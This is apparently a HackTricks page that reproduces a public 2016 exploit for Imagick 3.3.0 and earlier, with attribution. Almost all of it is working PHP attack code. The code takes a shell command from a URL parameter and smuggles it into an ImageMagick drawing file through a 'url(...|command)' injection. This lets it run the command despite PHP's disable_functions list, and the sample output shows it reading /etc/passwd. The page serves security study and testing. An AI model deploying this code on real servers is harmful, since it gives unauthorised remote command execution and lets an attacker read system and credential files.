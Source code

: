 {{#include ../../../../banners/hacktricks-training.md}}

# Imagick &lt;= 3.3.0 PHP &gt;= 5.4 Exploit

Von [http://blog.safebuff.com/2016/05/06/disable-functions-bypass/](http://blog.safebuff.com/2016/05/06/disable-functions-bypass/)
```php
# Exploit Title: PHP Imagick disable_functions Bypass
# Date: 2016-05-04
# Exploit Author: RicterZ (ricter@chaitin.com)
# Vendor Homepage: https://pecl.php.net/package/imagick
# Version: Imagick  <= 3.3.0 PHP >= 5.4
# Test on: Ubuntu 12.04
# Exploit:
<?php
# PHP Imagick disable_functions Bypass
# Author: Ricter <ricter@chaitin.com>
#
# $ curl "127.0.0.1:8080/exploit.php?cmd=cat%20/etc/passwd"
# <pre>
# Disable functions: exec,passthru,shell_exec,system,popen
# Run command: cat /etc/passwd
# ====================
# root:x:0:0:root:/root:/usr/local/bin/fish
# daemon:x:1:1:daemon:/usr/sbin:/bin/sh
# bin:x:2:2:bin:/bin:/bin/sh
# sys:x:3:3:sys:/dev:/bin/sh
# sync:x:4:65534:sync:/bin:/bin/sync
# games:x:5:60:games:/usr/games:/bin/sh
# ...
# </pre>
echo "Disable functions: " . ini_get("disable_functions") . "\n";
$command = isset($_GET['cmd']) ? $_GET['cmd'] : 'id';
echo "Run command: $command\n====================\n";

$data_file = tempnam('/tmp', 'img');
$imagick_file = tempnam('/tmp', 'img');

$exploit = <<<EOF
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/image.jpg"|$command>$data_file")'
pop graphic-context
EOF;

file_put_contents("$imagick_file", $exploit);
$thumb = new Imagick();
$thumb->readImage("$imagick_file");
$thumb->writeImage(tempnam('/tmp', 'img'));
$thumb->clear();
$thumb->destroy();

echo file_get_contents($data_file);
?>
```
{{#include ../../../../banners/hacktricks-training.md}}
